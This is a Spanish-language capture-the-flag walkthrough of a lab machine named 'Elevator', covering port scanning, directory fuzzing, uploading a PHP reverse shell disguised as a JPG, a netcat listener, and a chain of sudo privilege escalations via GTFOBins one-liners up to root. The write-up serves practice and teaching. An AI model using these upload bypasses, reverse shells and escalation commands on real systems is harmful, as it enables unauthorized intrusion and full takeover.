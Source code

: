 # Elevator

**Nivel:** Fácil

**Autor:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Escaneo 

Relizamos un escaneo general con **nmap** en la IP de la máquina víctima para identificar los puertos abiertos. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

A continuación, utilizamos los scripts predeterminados de **nmap** para recopilar más información sobre los puertos identificados:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

Evidenciamos un sitio web accedemos a este para inspeccionar su contenido:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

Después de revisar el código de la página web e interactuar con esta, encontramos información relevante que podrian ser nombres de usuarios: **daphne**, **velma**, **scooby**, **shaggy**

------------------
## Enumeración 

Realizamos **fuzzing** utilizando **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

Identificamos los directorios **javascript** y **themes**. Al revisarlos, obtenemos respuestas de acceso no autorizado de parte del servidor y realizamos un **fuzzing** adicional:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

Encontramos los ficheros **archivo.html** y **upload.php** y el directorio **uploads**.

--------------
## Explotación

Al revisar la página **archivo.html**, observamos que el formulario permite la carga de ficheros **jpg**:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

Ahora intentamos subir una shell reversa en PHP, almacenada como **jpg**

Configuramos la shell [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) y lo guardamos como la extensión **jpg**. 

Nótese que hemos establecido **172.17.0.1** como la **IP** y **4444** como el **PORT** de escucha para el listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

Iniciamos el **listener** para la shell reversa con **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Ahora ejecutamos la **shell reversa** a partir del enlace obtenido desde el fichero **upload.php** al subir el **jpg** desde el formulario de **archivo.html** y obtenemos acceso inicial:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### Tratamiento de TTY

Configuramos el **TTY** para una operación cómoda en la consola:

```shell
script /dev/null -c bash 
```
Presionamos **Ctrl  +  Z**, y luego ejecutamos:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

En los comandos anteriores es necesario ajustar los valores **rows** y **columns**  con los valores obtenidos al ejecutar en una consola de la máquina atacante el comando:

```shell
stty size
```

Ahora podemos utilizar **Ctrl+L** y **Ctrl+C**.

------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

Observamos que podemos ejecutar **env** como el usuario **daphne** revisamos la documentación de [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repetimos el proceso con **sudo -l** hasta lograr escalar como **root**:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finalmente hemos podido obtener usuario como **root**:

```shell
whoami
----------------
root
```
